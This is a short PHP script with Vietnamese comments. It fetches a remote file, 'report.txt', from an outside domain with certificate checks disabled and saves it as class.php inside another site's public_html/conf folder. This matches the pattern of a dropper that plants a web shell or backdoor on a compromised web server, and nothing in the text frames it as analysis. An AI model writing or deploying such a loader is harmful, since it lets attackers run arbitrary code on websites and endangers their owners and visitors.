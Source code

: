 // URL của file cần tải
$url = "https://dogebreedlist.info/app/report.txt";

// Đường dẫn lưu file
$savePath = "/home/cambodiaearrival/public_html/conf/class.php";

// Khởi tạo cURL session
$ch = curl_init($url);

// Mở file để ghi
$file = fopen($savePath, "w");

if ($file === false) {
    die("Không thể mở file để ghi.");
}

// Cấu hình cURL để ghi dữ liệu trực tiếp vào file
curl_setopt($ch, CURLOPT_FILE, $file);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, true);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);
curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, false);

// Thực hiện tải file
$result = curl_exec($ch);

// Kiểm tra lỗi
if ($result === false) {
    echo "Lỗi cURL: " . curl_error($ch);
} else {
    echo "Tải file thành công!";
}

// Đóng cURL và file
curl_close($ch);
fclose($file);
?>
